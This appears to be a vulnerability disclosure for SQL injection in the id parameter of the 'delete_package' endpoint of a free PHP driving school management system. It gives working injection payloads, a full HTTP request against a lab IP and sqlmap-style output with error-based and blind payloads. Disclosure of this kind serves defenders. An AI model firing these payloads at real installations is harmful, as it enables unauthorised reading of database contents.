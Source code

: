 ## Car driving school management system has a SQL injection vulnerability.

vendors: https://www.sourcecodester.com/php/15070/car-driving-school-management-system-phpoop-free-source-code.html

Vulnerability file: /cdsms/classes/Master.php?f=delete_package 

Vulnerability location: /cdsms/classes/Master.php?f=delete_package ,id

[+]Payload: id=1' and updatexml(1,concat(0x7e,(select version()),0x7e),0)--+ //id is Injection point

```
POST /cdsms/classes/Master.php?f=delete_package HTTP/1.1
Host: 192.168.1.19
Content-Length: 64
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.19
Referer: http://192.168.1.19/cdsms/admin/?page=packages
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=vfe306mj2a11p5q94440ttg4bd
Connection: close

id=1' and updatexml(1,concat(0x7e,(select version()),0x7e),0)--+ //id is Injection point
```

![image](https://user-images.githubusercontent.com/54017627/160320093-1665433a-57f7-42bc-8730-746a47bced99.png)

```sql
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: id=1' RLIKE (SELECT (CASE WHEN (1015=1015) THEN 1 ELSE 0x28 END))-- lYIO

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: id=1' AND EXTRACTVALUE(9451,CONCAT(0x5c,0x716a6a7071,(SELECT (ELT(9451=9451,1))),0x716b706b71))-- FYNY

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 2853 FROM (SELECT(SLEEP(5)))ZgVu)-- duUy
---
```

![image](https://user-images.githubusercontent.com/54017627/160319970-17f817f3-2745-418e-a649-1dfbc5fe36c5.png)
